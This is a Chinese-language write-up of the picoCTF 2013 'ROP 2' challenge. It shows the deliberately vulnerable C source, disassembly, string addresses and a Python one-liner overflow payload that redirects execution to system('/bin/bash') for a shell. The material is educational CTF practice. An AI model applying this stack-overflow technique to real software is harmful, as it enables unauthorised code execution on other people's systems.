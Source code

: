 ```yaml
---
layout: post
title: ROP 2
categories: writeups
tags: pwn
ctfsite: picoctf-2013
challenge_url: https://github.com/picoCTF/picoCTF-2013-problems/tree/master/ROP%202
---
```


这是 [ROP 1]({% url_by_slug picoctf-2013-rop-1 %}) 的进阶版。`not_called` 不再直执行 `/bin/bash`：

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char * not_used = "/bin/bash";

int not_called() {
	return system("/bin/date");
}

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 256);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
    be_nice_to_people();
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

{% include writeup_begin.html %}

由于 `not_called` 不再直接调用 `system("/bin/bash")`，我们需要修改传入 `system` 的参数。`system` 只接受一个参数，对于 32 位程序来说，当我们调用 `system` 时，栈顶的数据就会被传入 `system`。

考虑到 `vulnerable_function` 没有参数，那么在函数返回后，esp 就会变为当前 ebp + 4，也就是返回地址再下面 4 个字节。所以只要我们把 `not_used` 的地址写到返回地址的下方，再直接调用 `call system` 就可以了。

首先看一下 `not_used` 中 `call system` 一句的地址：

```.asm
/ (fcn) sym.not_called 20
|   sym.not_called ();
|           0x080484a4      push ebp
|           0x080484a5      mov ebp, esp
|           0x080484a7      sub esp, 0x18
|           0x080484aa      mov dword [esp], str.bin_date ; [0x804861a:4]=0x6e69622f ; "/bin/date" ; const char *string
|           0x080484b1      call sym.imp.system ; int system(const char *string)
|           0x080484b6      leave
\           0x080484b7      ret
```

我们就直接返回到 `0x080484b1` 即可；再看一下 `not_used` 字符串的地址：

```
[0x080483f0]> iz
000 0x00000610 0x08048610   9  10 (.rodata) ascii /bin/bash
001 0x0000061a 0x0804861a   9  10 (.rodata) ascii /bin/date
002 0x00000624 0x08048624  13  14 (.rodata) ascii Hello, World\n
```

地址是 `0x08048610`。因此构造一下输入：

```python
(python -c "print '0' * 0x88 + '0000\xb1\x84\x04\x08\x10\x86\x04\x08\n'";cat) | ./rop2-20f65dd0bcbe267d
                               ↑EBP ↑----返回地址----↑----栈顶内容----↑   ↑缓冲区剩余部分
```

就可以了。

{% include writeup_end.html %}
